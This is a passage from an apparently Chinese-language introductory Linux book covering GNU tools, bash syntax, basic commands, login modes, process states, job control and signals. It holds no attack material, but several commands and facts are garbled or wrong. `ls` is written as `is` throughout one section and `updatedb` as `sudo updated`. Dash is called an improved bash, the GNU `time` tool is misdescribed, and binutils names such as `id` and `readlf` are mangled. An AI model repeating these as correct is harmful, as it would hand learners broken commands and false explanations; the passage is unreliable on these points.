| Backtrack and Kali | 还有其他针对系统安全和渗透的特殊 Linux 版本。Kali Linux 是目前最流行的渗透测试平台。这一切始于从 `WHAX` 合并创建的 `BackTrack`（`WHAX` 是一个基于 Slax 的 Linux 发行版，背后的公司是 `Offensive Security`。早期版本的 `WHAX` 基于 `Knoppix` 并命名为 `Whoppix`）。`BackTrack` 5 基于 Ubuntu Lucid LTS。它支持 32 位和 64 位架构以及 ARM。2013 年，该公司基于 Debian 重建了平台，并以 Kali 的名称发布。Kali Linux 凭借其功能和顶级渗透测试工具集，非常稳定且先进。 |

| Linux Live 发行版 | 说明 |
| :--- | :--- |
| Puppy Linux | Puppy Linux 是一个小于 200MB 的小型系统。该 Linux 发行版最适合基本的计算机功能和网页浏览。尽管它非常小，但仍然提供恢复工具和分区工具。该发行版使得安装其他流行应用程序变得容易，因为它有自己的包管理器。Puppy Linux 有各种名为“puplets”的自定义版本。Puppy Linux 的优点之一是可以在旧硬件上运行。 |
| Slax | Slax 是一个小型而快速的 Linux 发行版。它基于 `Slackware`。但现在基于 Debian 稳定版。它是最易用的 Linux 发行版之一。用户可以在下载时删除或添加模块。Slax 非常方便。该发行版可以通过不同的介质（如 USB 闪存或 DVD ROM）启动。Slax 有一个包含许多选项的启动菜单。 |
| Knoppix | Knoppix 是一个稳定的 Linux 发行版。它是最早的 Linux CD 之一。它非常成熟，拥有超过 1000 个软件包。Knoppix 的优点之一是它支持独特的硬件。尽管 Knoppix 的目标是从现场介质运行，但也可以安装到硬盘中。Knoppix 有许多衍生版本。 |
| Tiny Core Linux | Tiny Core Linux 发行版是一个非常小的便携操作系统。它只有 10MB。由于该操作系统非常小，它不包含应用程序或文件管理器。然而，用户稍可以安装它们。这是初学者的推荐选项之一。 |
| Ubuntu | Ubuntu 没有特定的 LiveCD。但是，它的 ISO 镜像可以刻录到 DVD 或设置为 USB 启动盘。它提供了一个从其启动时进行试用的选项。 |
| MX Linux | MX Linux 适用于旧电脑和现代电脑。这是一个易于使用的发行版，新手可以使用它。 |

# 第 5 章：GNU 工具

在本章中，我们将涵盖 Linux 操作系统的通用组件。我们将深入探讨使 Linux 成为多功能系统的元素。

你将理解 GNU 项目和 GPL 之间的区别。所有的 Linux 发行版都带有 GNU 项目开发的软件。当你以文本模式使用发行版时，你将看到 GNU 工具。

## 什么是 GNU？

GNU（GNU 不是 Unix）是一个基于 GNU 包和其他第三方免费软件的操作系统。Linux 最近已成为最受欢迎的操作系统，因为它自带了所有软件。

## GNU 工具

GNU 工具是 GNU 软件集，包含了 `ls`、`cat` 和 `rm` 等工具，这些工具大多在 Unix 系统实现。

`rm` – 用于从文件系统中删除文件、目录和链接等对象的命令。

`cat` – 一个按顺序读取文件并将其作为标准输出写入的 Unix 工具。名称源于其功能；合并。

`ls` – 在 Unix 和所有基于 Unix 的系统中列出文件的命令。

Linux 的 GNU 通用许可证 (GPL) 确保软件对任何人都是免费开放的。没有个人或公司可以声称拥有或控制其使用。此外，任何用户都可以复制、编辑和重新发布源码。

## 资金

你可能会问，那么谁在为 GNU 项目提供资金？他们是如何筹集资金的？

自由软件基金为该项目提供资金 (`FSF`)，这是一个免税慈善组织。

GNOME GUI 和 `bash` 都是 GNU 项目的程序。Shell（外壳）是执行你命令的 GNU 程序，通常被称为命令解释器。


Linux 发行版使用 `GNU C` 和 [C++](https://www.amazon.com/dp/B084NVSNTT) 编译器开发。

Linux 中的文本文件使用 `ed` 和 `emacs` 编辑器进行。

### GNU 工具示例

其他流行的 GNU 工具包括：

* `Binutils` - 由处理二进制文件的不同软件包组成。
  * 伴随包包括 `ar`, `as`, `gasp`, `id`, `nm`, `objcopy`, `objdump`, `ranlib`, `readlf`, `size` 和 `strip`。
* `Bash` – 负责解释 Linux 中 shell 命令的 GNU 包。
* `Automake` – 用于生成配合 `Autoconf` 使用的 `makefile.in` 文件的 GNU 软件。
* `Autoconf` – 用于生成 shell 脚本的包，这些脚本用于配置源码包。
* `Emacs` – 用于 Linux 的文本编辑器包。
* `Ed` – 行向文本编辑器。
* `Diff` – 用于比较文件并逐行显示差异的包。
* `GNU Chess` – 用于运行 Linux 国际象棋游戏的包。
* `The GIMP` – 用于处理图像的 GNU 程序。它就像 Linux 版的 photoshop。
* `GNOME` – 为 Linux 发行版提供显示或 GUI。
* `Gnumeric` – 一个运行在 `GNOME` GUI 上的电子表格 GNU 程序。它等同于 MS Excel。
* `Time` – 一个为用户管理时间的 GNU 程序。

# 第 6 章：Shell

在图形用户界面出现之前，用户通过在终端中输入命令来与计算机系统进行交互。

作为 Linux 基础的 UNIX 系统使用所谓的 shell 来解释指令。

shell 仍然可用，某些用户比 GUI 更喜欢它，而另一些人则只将其用于特定任务。

请记住，你安装哪种 Linux 发行版并不重要。shell 在所有发行版中都可用。

Linux shell 允许编写可执行的脚本，以运行各种程序、编译代码、管理操作系统并执行你可以想象的几乎每一个操作。

虽然 shell 不像 GUI 那样易用（特别是对于习惯了 Windows 或 Mac 的学者来说），但许多开发者和 Linux 专家认为它更优。

正如之前所述，原因之一是 Linux 提供的某些更复杂的功能无法通过 shell 命令之外的任何其他手段进行访问或操作。

在本节中，我们将关注 `bash` shell，它代表 Bourne Again Shell，因为它是你可能遇到的最 shell 之一。

在不同的发行版中还有其他 shell。然而，它们在本质上与 `bash` 没有区别。大多数其他 shell 用于 UNIX 发行版。但是，Ubuntu 使用 `dash` shell，它实际上是 `bash` 的改进版本。

虽然你的发行版极可能预装了 `bash`，但它可能也包含其他 shell。不过，建议你坚持使用被认为是标准的工具，特别是作为初学者。即使你使用的是带有 `dash` 的 Ubuntu，你也可以毫无问题地在上面安装 `bash`。

话虽如此，以下是几个真实世界的示例，说明了为什么学习如何使用 Linux shell 是你掌握该操作系统旅程中的关键一步：

* 如果你知道如何通过 shell 工作，你将能够控制市场上现有的任何 Linux 或 Unix 系统。例如，你将能够通过 shell 连接到你的红帽 Linux Web 服务器、你的家庭娱乐服务器、路由器，甚至是你的家用计算机。这一切都可以同时远程完成。你甚至可以使用 Android 智能手机发布命令，因为所有这些设备和技术运行着某种形式的 Linux 或 Unix。
* 大量专家 Linux 用户专门使用 shell 工作，因为他们发现 shell 比任何 GUI 都更强大、高效，甚至更快。例如，你甚至可以通过查找和使用 shell 命令历史中的命令来避免大量的输入，并发布闪电般的命令。
* 你可能认为你没有办法以足够的速度发布复杂的命令。即使你找到并编辑了历史命令，你仍然需要时间来创建命令序列。幸运的是，你可以创建自己的程序，其中包含许多耗时太长的复杂命令。你可以收集这些命令，并通过条件语句、循环和 case 语句来应用它们。这样，你几乎可以消除输入，只需按一下按钮即可执行困难的操作。这被称为 shell 脚本，它在想要自动化大部分任务的系统管理员中非常流行。例如，通过适当的脚本，系统可以执行定期系统备份、监控各种文件并验证系统的完整性和。

shell 本质上是一个命令语言解释器。如果你熟悉 Windows 操作系统，可能会发现 shell 类似于 DOS 中管理命令的解释器。它也类似于 `CMD` 接口。然而，它要强大得多且功能更多。

你起初可能不喜欢使用 shell，因为你习惯了 GUI，你会觉得输入命令很慢。稍后，你至少将依靠它来管理某些高级功能或修复系统问题。

## Shell 提示符 (Prompt)

如果你的 Linux 发行版没有带 GUI，或者配置不妥当，你可能在启动后使用 shell 提示符登录系统。需要注意的是，根据账户类型的不同，有两种提示符。

如果你以普通用户身份连接到系统，则提示符显示为美元符号 `$`。

如果你以 root 用户（等同于 Windows 中的管理员用户）身份登录，提示符显示为井号 `#`。

取决于你的 Linux 发行版，两个提示符通常都以用户名、系统名为当前目录（等同于 Windows 文件夹）开头。例如，假设我们名为 Steve 的用户和名为 flynet 的系统的登录提示符，你正处于 `/usr/share/` 目录。它看起来像这样：

`steve@flynet share$`

提示符可以自定义和修改以显示你想显示的任何内容，包括关于你的系统的信息。例如，你可以设置字符序列，或显示计算机名称、日期以及你所在的目录。

使用 shell 时有许多功能可供使用，开始探索这些功能最简单的方法就是输入命令。熟悉命令界面的最好方法是通过实践。只需记住，某些命令只有在以 root 用户登录时才能发布。你需要系统的管理权限来使用某些工具。你发布的命令会出现在提示符之后，一旦你按下“回车”键，你将看到一行或多行显示你指令结果的输出。

## 命令

你可以输入的最基本的命令是那些显而易见的命令。打开终端并输入以下行：

```bash
$ date
```

这条简单的指令是自言自明的。它将显示你的计算机系统记录的当前日期和时间。记住，如果不指定任何参数或参数，你只会收到最基础的默认输出。

这里是另一个连续发布命令的示例：

```bash
$ pwd
/home/john
$ hostname
mycomputer
$ ls
DesktopDownloadsPicturesTemplatesDocumentsMusicPublicVideos
```

第一个命令 `pwd` 显示你当前所在的目录。接下来，通过输入 `hostname` 命令，你指示计算机告诉它的主机名。最后，`ls` 命令代表 list（列表），它确实执行了这一点。它列出了当前目录包含的所有目录。这些命令是基础的单词指令。通常你不会发布此类简单的命令。


相反，你会通过参数的形式添加更多信息，以便获得更具体的输出。

你在命令本身之后输入的所有内容被称为选项（options）和参数（arguments）。

## 语法

你可以将选项附加到大多数命令上，以控制它们的行为。它们通常由单个带连字符的字母表示。

请记住，你可以将多个选项或参数分组。只要命令是有意义的，就没有真正的限制。

以下是几个例子：

```
ls -l -a -t
ls -lat
```

注意，这两个命令是相同的。其中一个包含用连字符彼此隔开的选项，而另一个将它们组合在一起，仅在组开头使用一个连字符来指代整个组。

在两个例子中，我们都使用了 `ls` 命令，它通过长列表命令 `-l`、显示隐藏文件 `a` 以及按时间列表排序命令 `-t` 进行了详细说明。

某些选项并不一定写成单个字母。它们有时以整个单词的形式出现。最好的例子是帮助选项 `--help`。为了使用整个单词，我们需要使用双连字符。

为什么呢？因为如果我们使用单个连字符，shell 将把该命令解释为一组单字母指令，就像上面的例子一样。像 `--help` 这样的选项可以在许多命令中这样工作：

```
date --help
```

除了选项之外，你还可以向命令附加参数。它们输入在选项之后或行尾。参数是额外的数据片段。这包括目录名称、设备、用户名以及任何明确指示命令本身对特定内容执行的操作。

这是一个例子：

```bash
cat /etc/passwd
```

`cat` 命令被要求显示 `passwd` 文件中的信息，该文件位于 `etc` 目录中。这个特定的指令就是一个参数。请记住，就像选项一样，你可以拥有任意数量的参数而几乎没有限制。

然而，在某些情况下，参数仅对特定选项有效。这是一种特殊情况，要求参数放在选项之后。如果选项是单字母类型，则参数与其之间用一个空格分隔。如果选项是整个单词，则使用等号作为分隔符。

这是一个例子：

```bash
ls --hide=Desktop
```

这是一个全单词选项，你会注意到选项和参数之间没有空格。命令本身告诉系统列出你所在目录的内容，就像我们之前做过的那样。但是，我们使用 `hide` 选项配合 `Desktop` 参数，指示系统在列出过程中隐藏桌面目录。

现在，让我们来看一个单字母选项的例子：

```bash
tar -cvf mybackup.tar /home/john
```

在这里，我们创建了一个名为 `mybackup.tar` 的备份文件。该备份将包含 `john` 目录内的每一个文件。

# 第 7 章：Linux 的基本功能

现在是时候学习一些基础知识了，以便你能自信地使用 Linux。这些功能对于帮助你轻松地导航计算机系统至关重要。让我们花一点时间看看这些基本功能，并学习它们如何为我们工作。

## 界面的登录与注销

涉及到 Linux 操作系统时，每次尝试进入系统时，你首先需要提供登录凭据，即用户名和密码。此外，在你运行 Linux 系统时，你有两种模式可供选择，我们将在下文中介绍它们：

### 图形模式

图形模式将是你台式电脑的默认模式。基本上，如果电脑屏幕在允许进入之前要求密码和用户名，你就知道你正在使用图形模式。

要登录，你只需要输入已经设置好的登录凭据，然后按 `OK` 或 `ENTER` 继续。输入这些登录信息后，有时可能需要几分钟来加载所有内容并准备就绪；所需的时间取决于你电脑的性能及其处理能力。

当电脑完成加载后，你需要打开一个 `xterm`，也称为终端窗口。你只需通过点击“应用程序”（Applications）然后选择“实用程序”（Utilities）就能找到这个工具。

注意：在某些较版本的 Linux 中，会有一个图标可以加速此过程，你只需点击它，而不是按照上述步骤操作。

终端窗口基本上就是你操作系统的控制面板。你想要对操作系统执行的大多数操作都可以通过这个工具完成，通常一般情况下，当你打开终端窗口时，它应该显示某种命令提示符。通常，它会以你的系统用户名开头，以及一些关于已执行更新的信息。

当你准备好以这种模式注销时，你需要确保已经关闭了终端窗口和所有打开的程序。然后，你可以在主菜单上找到注销图标，或搜索 `Log Out`（注销）选项。如果你忘记关闭应用程序或窗口，这也没什么，因为电脑可以为你完成，但系统会在下次你回来时尝试检索所有这些窗口和程序，这可能会减慢电脑启动的过程。

一旦你看到屏幕再次要求输入登录凭据，你就知道你已经从系统中注销了。

### 文本模式

在该系统中，用于输入凭据的另一种模式是文本模式。当你看到整个屏幕是黑色的，只有几个字符时，你就知道自己处于文本模式。

这种模式的屏幕将显示一些数据，包括计算机名称、关于该计算机的一些数据，以及一个用于登录的提示符。

这种模式与图形模式有所不同，因为在输入完用户名后你需要按 `ENTER` 键，因为屏幕上没有可以点击的按钮或链接。然后你可以输入密码并再次按 `ENTER`。

这种模式的一个优点是，当你输入用户名和密码时，看不到任何你正在输入的迹象。在输入时，你不会看到单词、字母，甚至是点或特殊字符出现。对于某些初次使用该系统的人来说，这可能会让他们困惑，但出于安全考虑。

一旦系统接受了你的用户名和密码，你将收到“每日消息”（message of the day）。某些 Linux 发行版有一个被称为“幸运饼”（fortune cookie）的功能，它每天都会为你提供一些额外的感悟。然后，系统将为你提供一个 shell（shell），其详细说明与使用图形模式时得到的一样。

当你准备好从该系统注销时，只需输入 `logout` 然后按 `ENTER`。当屏幕再次出现并要求输入登录凭据时，你就知道已成功从系统注销了。

## 基本命令

现在我们已经了解如何根据所处模式登录和注销 Linux 系统，是时候开始学习我们将要用到的一些基本命令了。这些命令很容易学习，如果你以前用过某些编程语言，可能已经见过其中一些命令了。

学者应该学习的一些命令包括：


- `is` - 这将显示你当前所在目录下的文件列表。
- `passwd` - 这个命令将更改当前系统中登录用户的密码。
- `pwd` - 这将显示当前工作目录。
- `cd directory` - 这将切换目录。
- `exit` 或 `log out` - 这将让你更容易离开当前会话。
- `info` 命令 - 这将读取关于命令的帮助页面（info pages）。
- `file ‘filename'` - 这将显示指定文件名的文件类型。
- `apropos string` - 这个命令将使用“what is”数据库搜索字符串。
- `cat`: 这个命令可以将文件内容打印到你的屏幕上。

当你快速需要某些信息，或者想查看文件包含什么数据时，使用这个命令非常有用，因为你不需要先打开文本编辑器或文字处理程序。

- `cp`: 这个命令将复制文件或文件夹。

请记住，你还需要指定放置副本的位置。

- `mv`: 这是移动命令，用于移动目录和文件。

它也可以像这样用来来重命名文件：`mv old_filename new_filename`。

- `mkdir`: 创建新目录。
- `rmdir`: 删除目录。
- `sudo`: 这是一个重要的命令；然而，使用它存在风险。

你之前已经了解到，某些功能只有通过 root 账户才能访问。

这意味着在执行限制操作之前，你必须从普通用户账户重新登录到 root 账户。

`sudo` 命令为你提供了一个快捷方式。

通过在另一个命令前面输入此命令，你告诉系统你拥有管理员权限，并且你想在不切换账户的情况下继续。
- `locate`: 一个用于定位文件或目录的有用命令。

把它当成搜索按钮使用。

请记住，你必须先更新系统的数据库以确保它记录了每个文件和目录。

你可以使用以下命令来实现：`sudo updated`。

现在你就可以执行搜索了。

访问时，你可能想配合命令使用 `-i` 选项来忽略大小写。

这里有一个例子：`locate -i *myfile*`。
- `history`: 这个命令将打印你之前使用过的命令列表。

用它来学习你哪里做错了。

这个命令的快捷键是按下 `Ctrl + R` 键。
- `man`: 对于初学者来说，这是一个特别实用的命令。

它用于学习更多关于其他命令的信息。

每一条命令都有自己的“man”页面，解释了它所做的一切。

它还包含了可以与命令配合使用的选项和参数。

使用方法如下：`man insert_command`。

还有许多其他命令，但现在你应该坚持基础知识。

没必要让自己压力过大。先练习这些命令一段时间，当你觉得准备好探索更多命令时，可以自己搜索剩余的内容。

## 其他注意事项

在大多数情况下，你将单独执行命令。

例如，你只需要输入“is”，系统就能为你完成剩余的工作。

如果你指定了选项（option），命令的行为将会有所不同，你可以通过引入连字符（dash）来实现这一点。

在 GNU 环境下工作时，只要你用两个连字符（--）来引入，它就能接受一些较长的选项，但某些命令没有这些额外的选项。

被称为命令“参数”（argument）的实际上，是指对你想要应用命令的对象的具体指定。

一个很好的例子是 `is /etc`。在这个例子中，`/etc` 是目录也是参数，而 `is` 是命令。

这个特定的参数将显示你想查看 `/etc` 目录的内容，而不是默认目录。

然后你就可以点击 `ENTER` 键进入该目录。

取决于你尝试执行的操作，某些命令需要参数来帮助系统理解你正在寻找什么。

## 使用 Bash 特性

Bash 是你将使用的多数 Linux 系统上默认的 GNU shell，它将让你更容易通过某些组合键来快速、方便地完成任务。

在 Bash shell 中使用一些最常用的特性包括：

- `Tab` – 这将补全命令或文件名。

如果有多个选项，系统将使用视觉或音频通知提示你。

如果系统检测到有很多可能，它会询问你是否想要检查所有选项。
- `Tab Tab` – 这个将显示文件名或命令的补全可能性。
- `Ctrl + A` – 这将光标移动到当前命令行的开头。
- `Ctrl + C` – 这个用于结束你的计算机程序，然后显示 Linux 提示符。
- `Ctrl + D` – 这个将注销你的当前会话。

它等同于 `logout` 或 `exit`。
- `Ctrl + E` – 将光标移向当前命令行的末尾。
- `Ctrl + H`– 这的功能与按下键盘上的退格键（backspace）类似。
- `Ctrl + L` – 这将清除终端。
- `Ctrl + R` – 这将搜索历史记录。
- `Ctrl + Z` – 这允许你挂起程序。
- `Arrow right / arrow left` – 这些键将让你更容易沿命令行移动光标。
- `Arrow up / arrow down` – 这些键将让你更容易于浏览历史记录。
- `Shift + Page Up / Shift + Page Down` – 使用这些组合键允许你查看缓冲区。

随着你对系统越来越熟悉，你将开始更好地理解这些命令是如何工作的。

尝试一下，并练习登录和注销系统，以便在继续学习之前先感受一下它的运行方式。

# 第 8 章：进程概述

如果你想用 Linux 做一些酷炫的事情，并让程序真正按照你的意愿运行，理解进程在这个操作系统内部是如何工作的至关重要。

## 管理进程

作为一个初学者，你可能对于如何管理进程以及让它们协同工作，或者至少让它们在你需要的时间运行感到有些困惑。

在这里我们将看看为了管理 Linux 系统中的不同进程你应该采取的一些步骤。

## 管理员的任务

如果同一台 Linux 系统上连接着多台计算机，管理员应该是负责为其他计算机运行网络的人。

话虽如此，如果你是该部分 Linux 的唯一使用者，从技术上讲你就是管理员，因此如何管理系统中的某些进程变得非常重要。

## 这个过程需要多少时间？

当你使用 Bash shell 时，你会发现命令是预装在计算机上的。

这将显示了执行一个进程应该花费的时间。


这个工具非常有用，因为它具有很高的多用性且准确性高，可以使用它来获取关于任何命令的精确数据。

你可以使用它来查看完成列表中的任何过程需要多长时间，无论你是在尝试编写某些代码、保存 pdf 文件还是进行其他操作。正如你所猜的，你想要执行的所有不同过程完成所需的时间是不同的。

## 性能

当你考虑系统的性能时，你通常希望它运行快速且表现良好。

你希望它能够良好地执行各个过程，这样你就可以无延迟地工作。

然而，对于那些系统管理员来说，这些话具有更多的意义，因为管理员需要确保整个系统（包括用户、程序和守护进程）的性能都能尽可能良好。

总的来说，有几个因素会影响性能，包括：

-   对接口、控制器、显示器和驱动器的访问。
-   正在执行的程序设计不当，或者没有按预期有效地使用计算机资源。
-   远程网络的可用性。
-   一天中的时间。
-   此时系统上活跃的用户数量。

当其中某些因素无法正常工作时，你会发现性能将会有所下降。

例如，如果系统同时有太多用户，它可能会变慢。

如果你想要使用的程序或过程在计算机系统中没有配置正确，它在工作时就会遇到困难，以此此类推。

管理员需要负责定期查看这些不同方面，以确保计算机系统以及 Linux 能够一直正常工作。

## 优先级

Linux 有一种所谓的“调度性值”（niceness number）。

这是一个范围在 -20 到 19 之间的数字。

数字越小，该任务获得的优先级就越高，反之亦然。

例如，如果一个任务的数字是 19，它将被视为非常低的优先级，CPU 只有在获得机会且其他高优先级任务已完成后，才会处理它。

任务的默认 nice 值为 0。

任务的重要性将有助于决定它在系统上运行得是否良好。

具有高“nice”值的任务与其他任务、网络和其他用户是协作的，并且会被视为低优先级任务。

可以通过手动更改 nice 值让任务变得稍微更“友善”一点。

请记住，这只对任何需要大量 CPU 时间的进程有效。

使用大量 I/O 时间的进程通常会被赋予较低的 nice 值或更高的优先级，以便它们能够处理这些复杂情况。

例如，来自键盘的输入通常会在计算机中获得更高的优先级，以便系统能够记录你正在尝试的操作。

# 第 9 章：Linux 进程

在本章中，我们将学习如何监控和管理运行在 Red Hat Enterprise Linux 7 上的进程。

在本章结束时，我们能够列出进程并解释系统中关于它们的的基本信息，使用 bash 作业控制控制进程，使用信号终止进程，并监控由进程引起的系统资源和系统负载。

### 进程

在本节中，我们将定义一个典型进程的周期并理解进程的不同状态。我们还将学习查看和解释进程。

#### 什么是进程？

一个在启动后处于运行状态的可执行程序被称为进程。

进程具有以下特征：

-   指向地址空间的已分配内存。
-   关于安全性的属性，包括所有权权限和凭据。
-   包含一个或多个可执行线程的代码。
-   进程的状态。

进程环境具有以下特征：

-   既是局部又是全局的变量。
-   当前的调度上下文。
-   分配给它的系统资源，包括网络端口和文件描述符。

已有的进程被称为父进程，它通过拆分和复制其地址空间来创建子进程。

为了安全和跟踪，每个新进程都会分配一个名为 `PID` 的唯一进程 ID。

`PID` 和父进程的 ID（称为 `PPID`）共同构成了子进程的环境。

任何进程都可以创建子进程。

系统中的所有进程都源自系统的第一个进程，这在 Red Hat Enterprise Linux 7 中被称为 `systemd`。

当子进程通过 `fork` 从父进程分叉时，诸如之前的和当前的文件描述符、安全标识等属性就会被继承。一旦子进程完成，父进程就会唤醒并清理子进程的剩余部分；剩余的部分被称为僵尸（z）。一旦子进程退出，子进程就被完全释放了。

#### 进程状态

考虑一个能够多任务的操作系统。如果它有多个核心，每个核心在给定时间内都可以专门给一个进程。在运行期间，CPU 和其他资源的需求根据当前情况不断变化。

让我们通过下表逐一查看进程的状态。

| 名称 | 标志 | 状态名称和描述 |
| :--- | :--- | :--- |
| 运行 (Running) | R | `TASK_RUNNING`: 进程正在 CPU 上等待或执行。进程可能正在为用户或内核执行例程。它也可能处于队列状态，准备好运行。 |
| 睡眠 (Sleeping) | S | `TASK_INTERRUPTIBLE`: 进程正在等待某种条件，如系统资源访问、硬件请求或信号。当事件或信号满足条件时，进程将返回运行状态。 |
| 睡眠 (Sleeping) | D | `TASK_UNINTERTIBLE`: 进程也处于睡眠状态，但与 S 不同，它不会响应任何信号。它只用于特定条件，即由于进程中断可能导致不可预测的设备状态。 |
| 睡眠 (Sleeping) | K | `TASK_KILLABLE`: 它与不可中断的 D 状态非常相似，但等待的任务可以响应杀死信号被杀死。可杀的进程被工具程序显示为 D 状态。 |
| 停止 (Stopped) | T | `TASK_STOPPED`: 进程由于另一个信号或进程处于停止状态。然而，另一个信号可以将进程送回运行状态。 |
| 停止 (Stopped) | T | `TASK_TRACED`: 进程处于调试状态，因此处于停止状态。它共享相同的 T 标志。 |
| 僵尸 (Zombie) | Z | `EXIT_ZOMBIE`: 子进程已完成，它离开系统并通知父进程。子进程持有的资源除进程 ID PID 外的都已释放。 |
| 死亡 (Dead) | X | `EXIT_DEAD`: 父进程在子进程退出后已清理了其剩余部分；子进程现在已被完全释放。这种状态在列出进程的工具程序中很少观察到。 |

#### 列出进程

可以在 提示符中使用 `ps` 命令列出系统中的进程。

该命令提供了有关进程的详细信息，包括：


-   `UID` 用户标识，决定了进程的权限
-   唯一的进程 ID `PID`
-   `CPU` 的实时使用情况
-   进程在系统不同位置分配的内存
-   进程的 `STDOUT` 标准输出位置，称为控制终端
-   进程的当前状态

选项 `aux` 可以配合 `ps` 命令使用，它将显示所有进程的详细信息。

它包含若干列，对用户非常有用，还会显示没有控制终端的进程。

如果你使用长列表显示选项 `lax`，你将获得更多的技术细节，但它可能会通过跳过用户名查找来提高显示速度。

如果你在不带任何选项的情况下运行 `ps` 命令，它将显示其有效用户 ID `EUID` 与当前用户相同，且与调用 `ps` 命令时相同的终端关联的进程。

-   `ps` 列表还会显示僵尸进程，它们是正在退出或已死亡状态的进程。
-   `ps` 命令只显示一次输出。

你也可以选择使用 `top` 命令，它会实时重复显示输出。
-   带有圆括号的进程通常是由内核线程运行的。它们出现在列表的最顶部。
-   `ps` 命令可以显示树形格式，以便你理解父进程和子进程的关系。
-   进程列出的默认顺序不是排序的。它们按照第一个启动的进程在前、其余进程在后的方式列出的。你可能会觉得输出是按时间顺序的，但除非显式使用 `-O` 或 `--sort` 等选项，否则无法保证这一点。

### 控制作业

在这一节中，我们将学习前台、后台和控制终端等术语。

我们还将学习使用作业控制，这允许我们管理多个命令行任务。

### 作业与会话

作业控制是 shell 的一项功能，通过它可以在单个 shell 实例中管理多个命令。

你在 shell 提示符处输入的每一个管道都与一个作业（job）相关。

该管道中的所有进程都是该作业的一部分，并且是同一个进程组的成员。

最小的管道是在 shell 提示符上只输入了单个命令。在这种情况下，该命令就成为该作业的唯一成员。在任何给定时刻，从键盘给命令行的输入只能被一个作业读取。该终端被称为控制终端，作为该作业一部分的进程被称为前台进程。如果该控制终端还有其他关联的作业且是其成员，则被称为该控制终端的后台进程。从键盘给终端的输入无法被后台进程读取，但它们仍然可以写入终端。后台作业可以处于停止状态或运行状态。如果后台进程尝试从终端读取，该进程将自动被挂起。每个运行中的终端都是它自己的会话，并可以拥有前台和后台的进程。

一个作业只属于一个会话，即属于其控制终端的会话。如果你使用 `ps` 命令，列表将在名为 `TTY` 的列中显示进程控制终端的设备名称。

有些是由系统启动的进程，例如系统守护进程（daemon），它们不是 shell 提示符的一部分。因此，这些进程不是作业的一部分，或者它们没有控制终端且永远不会进入前台。此类进程在使用 `ps` 命令列出时，在 `TTY` 列中显示 `?` 标记。

### 运行后台作业

你可以在命令行末尾添加一个和符号 `&`，这将在后台运行该命令。

该作业将被分配一个唯一的作业号，而在 `bash` 中创建的子进程将被分配一个进程 ID `PID`。命令执行后，shell 提示符会再次出现，因为 shell 不会等待子进程完成，因为它正在后台运行。

```
[student@desktop ~]$ sleep 10000 &
[1] 5683
[student@desktop ~]$
```

注意：当你使用和符号 `&` 将管道放入后台时，输出中显示的进程 ID `PID` 将是管道中最后一个命令的 PID。在此之前的所有其他命令都是该作业的一部分。

```
[student@desktop ~]$ example_command | sort |mail -s “sort output” &
[1] 5456
```

作业在 `bash` shell 中按会话进行跟踪，显示在使用 `jobs` 命令显示的输出表中。

```
[student@desktop ~]$ jobs
[1]+ Runningsleep10000 &
[student@desktop ~]$
```

你可以使用 `fg` 命令配合作业 ID（`%job number`）将作业从后台带到前台。

```
[student@desktop ~]$ fg %1
sleep 10000
```

在上面的示例中，我们将正在后台运行的 `sleep` 命令带到了控制终端的前台。shell 将恢复睡眠，直到该子进程完成。这就是为什么你必须等待 `sleep` 命令结束，shell 提示符才会再次出现。

你可以通过按下键盘上的 `Ctrl+z` 将进程从前台发送到后台，这将发送一个挂起请求。

```
sleep 10000
^Z
[1]+Stoppedsleep10000
[student@desktop ~]$
```

该作业将被挂起并置于后台。有关作业的信息可以使用 `ps j` 命令显示。显示将显示一个 `PGID`，它是进程组首的 `PID`，并指代作业管道中的第一个作业。`SID` 是会话首的 `PID`，对于作业而言，它指的是运行在控制终端上的交互式 shell。

```
[student@desktop ~]$ ps j
PPIDPIDPGIDSIDTTYTPGIDSTATUIDTIMECOMMAND
2434245624562456pts/05677T10000:00sleep 10000
```

`sleep` 命令的状态是 `T`，因为它处于挂起状态。你可以使用带有相同作业 ID 的 `bg` 命令在后台重新启动挂起的进程并将其恢复运行状态。

```
[student@desktop ~]$ bg %1
[1]+ sleep 10000 &
[student@desktop ~]$
```

如果有挂起的作业且你尝试退出 shell，你将收到一个警告，告知后台有挂起的作业。如果你确认离开，挂起的作业将被立即杀死。

### 杀死进程

在这一节中，我们将学习如何使用命令与进程进行通信并杀死它们。我们将理解什么是守护进程及其特征。我们还将学习如何结束由用户拥有的进程和会话。

### 使用信号控制进程

信号是一种通过软件开发的、发送给进程的中断。事件通过信号发送给程序。这些产生信号的事件可以是外部事件、错误，或通过使用键盘发送的命令等显式请求。

让我们来看几个对于系统管理员在日常系统管理活动中非常有用的信号。

| 信号编号 | 简写 | 定义 | 目的 |
| :--- | :--- | :--- | :--- |
| 1 | HUP | 挂断 | 此信号报告终端中控制进程的终止。可以使用此信号请求重新初始化或重新加载配置，而无需终止。 |
| 2 | INT | 键盘中断 | 此信号会导致程序终止。该信号可以被阻塞或处理。该信号通过按下键盘上的 Ctrl+c 发送，称为 INTR。 |
| 3 | QUIT | 键盘退出 | 该信号与 SIGINT 类似，区别在于终止时会生成一个进程转储。该信号通过按下键盘上的 Ctrl+\ 发送，称为 QUIT。 |


| 数字 | 信号 | 名称 |  |
| :--- | :--- | :--- | :--- |
| 9 | `KILL` | 杀死，不可阻塞 | 此信号会导致程序强制终止。它无法被阻塞、处理或忽略，并且总是致命的。 |
| 15 默认 | `TERM` | 终止 | 此信号会导致程序终止。与 `SIGKILL` 不同，此信号可以被阻塞、忽略或处理。这是请求程序以礼貌的方式终止，从而进行适当的清理。 |
| 18 | `CONT` | 继续 | 此信号发送给处于停止状态的进程以使其恢复。该信号无法被阻塞，即使信号被处理，进程也会恢复。 |
| 19 | `STOP` | 停止，不可阻塞 | 此信号会导致进程挂起，且无法被处理或阻塞。 |
| 20 | `TSTP` | 键盘停止 | 与 `SIGSTOP` 不同，此信号可以被阻塞、处理或忽略。该信号通过键盘上的 `Ctrl+z` 发送，被称为 `SUSP` |

注意：信号数字可能会根据用于 Linux  way 系统的硬件而变化，但信号名称及其用途是标准化的。

因此，建议在命令行上使用信号名称而不是信号数字。

信号数字仅适用于与 Intel x86 架构相关的系统。

每个信号都有一个默认操作，对应于以下内容之一：

- **Term**：请求程序立即退出或终止。
- **Core**：请求程序终止，但在终止前要求其保存内存映像或核心转储（core dump）。
- **Stop**：程序被挂起或请求停止，并将必须等待再次恢复。

程序可以通过实现处理程序例程来处理预期事件信号，从而可以替换、忽略或扩展信号的默认操作。

## 通过显式请求发送信号的命令

